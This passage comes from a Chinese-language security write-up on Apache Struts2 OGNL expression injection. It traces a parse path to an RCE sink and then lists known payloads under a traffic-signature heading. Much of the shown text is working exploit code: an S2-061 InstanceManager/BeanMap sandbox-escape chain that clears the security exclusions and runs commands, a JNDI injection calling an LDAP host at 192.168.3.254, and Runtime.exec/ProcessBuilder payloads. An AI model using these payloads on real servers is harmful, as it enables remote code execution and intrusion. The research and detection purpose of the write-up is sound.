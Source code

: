 ![image-20210817162203005](/media/image-20210817162203005.png)

跟进 `conditionalParse(location, invocation)` ，可以看到，又到了 `TextParseUtil.translateVariables()` ，这是个分析过很多次的Ognl表达式RCE Sink了，底层进行了Ognl表达式解析，从而触发RCE，这里不再分析底层调用了：

![image-20210817162426585](/media/image-20210817162426585.png)

RCE证明如下：

![image-20210817162512882](/media/image-20210817162512882.png)

## 总结

这里匆匆忙忙过了一遍Ognl的注入点，但是其实，找到Ognl表达式注入点，可能还得绕沙箱（没有过多分析沙箱绕过，大多数只分析了Ognl表达式注入点）。值得一提的是S2-061中pwntester提出的 `org.apache.tomcat.InstanceManager` 的这个Gadget，有非常强的扩展性。（conf velocity沙箱逃逸那个RCE漏洞中也用到了）。例如：

```java
// 以下为调用栈，非直接利用的POC
(#UnicodeSec = #application['org.apache.tomcat.InstanceManager'])
(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap'))
(#stackvalue=#attr['struts.valueStack'])
(#potats0.setBean(#stackvalue))
(#context=#potats0.get('context'))
(#potats0.setBean(#context))
(#sm=#potats0.get('memberAccess'))
(#emptySet=#UnicodeSec.newInstance('java.util.HashSet'))
(#potats0.setBean(#sm))
(#potats0.put('excludedClasses',#emptySet))
(#potats0.put('excludedPackageNames',#emptySet))
(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute'))
(#cmd={'whoami'})
(#res=#exec.exec(#cmd))
```

它可以直接无视沙箱new一个对象，这样就有很多可能性了。扩展下也可以使用这个Gadget构造一个JNDI注入：

```
%{(#InstanceManager = #application['org.apache.tomcat.InstanceManager']).(#rw=#InstanceManager.newInstance('com.sun.rowset.JdbcRowSetImpl')).(#rw.setDataSourceName('ldap://192.168.3.254:10086/InstanceManager')).(#rw.getDatabaseMetaData())}
```

## 流量特征

首先汇总下目前已知的POC：

```java
// S2-005之前，没有沙箱，可以直接Ognl执行命令
// 所以S2-005之前无需沙箱绕过
%{(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()}

%{@java.lang.Runtime@getRuntime().exec("calc")}

// 以及一些S2-005之前的非RCE Payload如下
%{"tomcatBinDir{" @java.lang.System@getProperty("user.dir") "}"}

%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

// S2-005开始，存在沙箱，此时Ognl表达式注入需要绕沙箱（通过Ognl关闭沙箱）
// Struts2的OgnlContext配置的沙箱处理器为SecurityMemberAccess
// 对应于OgnlContext的_memberAccess属性
// 此外，Struts2还通过配置denyMethodExecution来判定是否允许Ognl执行函数
// 所以从S2-005开始，POC都是类似如下形式：
// 利用Ognl将denyMethodExecution设置为true，同时拿到_memberAccess，将其中的安全配置清空
```